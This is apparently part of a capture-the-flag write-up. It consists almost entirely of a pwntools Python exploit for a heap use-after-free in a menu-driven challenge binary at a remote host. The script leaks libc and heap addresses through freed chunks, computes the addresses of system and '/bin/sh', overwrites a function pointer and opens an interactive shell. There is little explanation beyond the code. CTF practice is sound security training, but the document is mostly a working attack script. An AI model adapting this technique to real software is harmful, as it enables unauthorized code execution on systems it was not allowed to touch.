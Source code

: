     ![圖片](https://hackmd.io/_uploads/ByhCXQjrT.png)

## Exploit
```python
from pwn import *

# r = process('./chal')
r = remote('10.113.184.121', 10059)
context.arch = 'amd64'

def register(idx, name_len, name):
    r.recvuntil(b'choice: ')
    r.send(b'1')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
    r.recvuntil(b'Nmae Length: ')
    r.send(str(name_len).encode())
    r.recvuntil(b'Name: ')
    r.send(name)

def delete(idx):
    r.recvuntil(b'choice: ')
    r.send(b'2')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())

def trigger_event(idx):
    r.recvuntil(b'choice: ')
    r.send(b'3')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())


# Fetch Info
## Leak libc address
register(0, 0x420, b'a')
register(1, 0x420, b'a')
delete(0)
delete(1)
register(0, 0x420, b'a')
trigger_event(0)
r.recvuntil(b'Name: ')
leak_libc = u64(r.recv(6).ljust(0x8, b'\x00'))
libc_base = leak_libc - 0x1ecb61
system_addr = libc_base + 0x52290
log.success(f'Leak libc address = {hex(leak_libc)}')
log.success(f'Libc base address = {hex(libc_base)}')
log.success(f'System address = {hex(system_addr)}')
print(r.recvlines(3))

## Leak heap address
bin_sh_addr = libc_base + 0x00000000001b45bd
### To reset entities
register(0, 0x20, b'a')
register(0, 0x20, b'a')
register(1, 0x20, b'a')
delete(1)
delete(0)
register(0, 0x18, p64(0) + p64(bin_sh_addr) + p64(system_addr))
trigger_event(1)

r.interactive()
```